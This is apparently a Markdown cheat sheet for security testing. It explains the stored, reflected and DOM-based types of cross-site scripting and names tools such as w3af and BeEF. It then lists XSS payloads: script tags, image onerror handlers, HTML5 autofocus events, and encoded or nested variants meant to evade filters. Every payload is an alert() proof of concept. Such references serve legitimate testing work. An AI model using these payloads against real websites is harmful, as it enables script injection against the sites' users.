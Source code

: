 Cross Site Scripting
----------------------------

Types of XSS injections:

1)Stored - it is possible when a website or web application stores user input and later serves it to other users. An application is vulnerable if it does not validate user input before storing content and embedding it into HTML response pages.


2)Reflected - the attacker’s payload has to be a part of the request that is sent to the web server. It is then reflected back in such a way that the HTTP response includes the payload from the HTTP request. Attackers use malicious links, phishing emails, and other social engineering techniques to lure the victim into making a request to the server.


3)DOM base - It is possible if the web application’s client-side scripts write data provided by the user to the Document Object Model (DOM). The data is subsequently read from the DOM by the web application and outputted to the browser. If the data is incorrectly handled, an attacker can inject a payload, which will be stored as part of the DOM and executed when the data is read back from the DOM.

Available for manipulation:  
1.Cookie  
2.DOM  
3.Connectivity  
4.Async JS requests  

Toolset: Acunteix, w3af, Beef <br />

Basic payload:
-----------------------------------------------------------------------------
```
';alert('xss inj');' 
<script>alert('xss inj')</script>
<sCrIpt>alert(1)</ScRipt>
<scr<script>ipt>alert('xss inj')</scr<script>ipt>
"><script>alert('xss inj')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
%3Cscript%3Ealert(%27xss%20inj%27)%3C%2Fscript%3E
%253Cscript%253Ealert(%2527xss%2520inj%2527)%253C%252Fscript%253E
#"><img src=/ onerror=alert(2)>
```

Image payload:
-----------------------------------------------------------------------------
```
<img src="javascript:alert('xss inj');">
<img """><script>alert("xss inj")</script>">
<img src= onmouseover="alert('xxs')">
<img src=x onerror="alert(String.fromCharCode(88,83,83))"></img>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```

HTML5 payload:
-----------------------------------------------------------------------------
```
<body onload=alert(/xss/.source)>
<select autofocus onfocus=alert('xss inj')>
<input autofocus onfocus=alert('xss inj')>
<textarea autofocus onfocus=alert('xss inj')>
```

References:
-------------------------------------
[Wikipedia](https://en.wikipedia.org/wiki/Cross-site_scripting)  
[Owasp](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

